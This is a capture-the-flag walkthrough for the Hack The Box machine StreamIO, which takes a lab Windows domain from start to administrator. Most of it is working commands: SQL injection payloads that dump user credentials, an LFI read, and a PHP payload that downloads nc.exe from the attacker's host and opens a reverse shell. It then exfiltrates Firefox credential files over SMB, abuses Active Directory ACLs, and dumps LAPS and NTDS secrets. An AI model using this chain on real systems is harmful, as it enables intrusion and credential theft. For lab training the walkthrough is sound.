


# [StreamIO](https://app.hackthebox.com/machines/streamio)

```bash
nmap -p- --min-rate 10000 10.10.11.158 -Pn
```


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,88,135,139,489,443,445,464,593,636,3268,3269,5985,9389 10.10.11.158
```


I added ip address into my '/etc/hosts' file as '**streamio.htb**'.


Let's do subdomain enumeration.
```bash
wfuzz -u https://streamio.htb -H "Host: FUZZ.streamio.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 315   
```


I also added `watch.streamio.htb` into '/etc/hosts' file.


Let's fuzz web application to inject some payloads. I found `search.php`.


Let's do SQL Injection
```bash
abcd' union select 1,2,3,4,5,6;-- -
```


Let's modify this SQLI manually.
```bash
abcd' union select 1,name,id,4,5,6 from streamio..syscolumns where id in (885578193,901578250);-- -
```


Now, I got username and password list from users table.
```bash
abcd' union select 1,concat(username,':',password),3,4,5,6 from users;-- -
```


I got all usernames and passwords from here, to brute-force `admin.php` side of application.


admin:paddpadd
yoshihide:66boysandgirls..


While I login via `yoshihide` account, I can browse **'Admin Panel'**


Now, I just search valid parameters for actions that Admin user can do. (need to add cookie header)
```bash
wfuzz -u https://streamio.htb/admin/?FUZZ= -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=1gjelvhioc1ckvb9c1kedva6r4"  --hh 1678
```


While browsing below url for `debug` parameter, I can see base64 encoded version of source code.
`url=https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php`


I see most dangerous part here, that `eval` function is used, it means we can do RCE or LFI & RFI.


Let's check this.


I can see from port (80). `nc -nlvp 80`




Now, let's create malicious revshell and serve this on http server.

1.Create malicious reverse shell script (dr4ks.php) as below.
```bash
system("powershell -c wget http://10.10.16.6:8080/nc.exe -outfile \\programdata\\nc.exe");
system("\\programdata\\nc.exe -e powershell 10.10.16.6 1337");
```


2.Then, open http server .
```bash
python3 -m http.server --bind 10.10.16.6 8080
```


After submiting value into POST request as below.


I got reverse shell from port (1337).


I searched files which contain `database` string as below.
```bash
dir -recurse *.php | select-string -pattern "database"
```


Let's look at the tables via `sqlcmd` command.
```bash
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select table_name from streamio_backup.information_schema.tables;"
```


Now, I change query to read from `users` table.

```bash
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
```


I crack these hashes via [Crackstation](https://crackstation.net)


Here's my users.txt and passwords.txt file.

Let's use `crackmapexec` tool to find correct credentials.

```bash
crackmapexec smb 10.10.11.158 -u users.txt -p passwords.txt --continue-on-success --no-bruteforce
```


I found credentials.


nikk37:get_dem_girls2@yahoo.com


Let's connect to Winrm via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'
```

user.txt




After enumeration, I found stored credentials `key4.db and logins.json` file for user in Firefox's directory.


1.To grab these files, I need to open SMB server.
```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support
```


2.Then, use `copy` command to send files into my machine.
```bash
copy key4.db \\10.10.16.6\share\
copy logins.json \\10.10.16.6\share\
```


I use this tool called [Firepwd](https://github.com/lclevy/firepwd).

```bash
python3 firepwd.py
```


Here's my users.txt and passwords.txt file.


Let's use `crackmapexec` tool to find correct credentials.

```bash
crackmapexec smb 10.10.11.158 -u users.txt -p passwords.txt --continue-on-success
```


I found correct credentials.

JDgodd:JDg0dd1s@d0p3cr3@t0r


Let's use this domain account to dump all Active Directory.

```bash
bloodhound-python -c All -u jdgodd -p 'JDg0dd1s@d0p3cr3@t0r' -ns 10.10.11.158 -d streamio.htb -dc streamio.htb --zip
```


My user has 'WriteOwner' privilege for 'Core STAFF' Domain Group.


And this Domain Group has privilege to read 'LAPS_Password'.


I need to add my user into 'Core Staff' Group to read LAPS password.

For this, I will use [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) script.


I do this via `evil-winrm`.

```bash
upload PowerViews.ps1
. .\PowerView.ps1
$pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"
Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "StreamIO\JDgodd"
```


We can check via `net user JDgodd` command.


Hola, it worked.


We use `crackmapexec` tool to dump LAPS password or NTDS data.
```bash
crackmapexec smb 10.10.11.158 -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --laps --ntds
```


administrator:4a-Z2a4@f0#r6s


root.txt

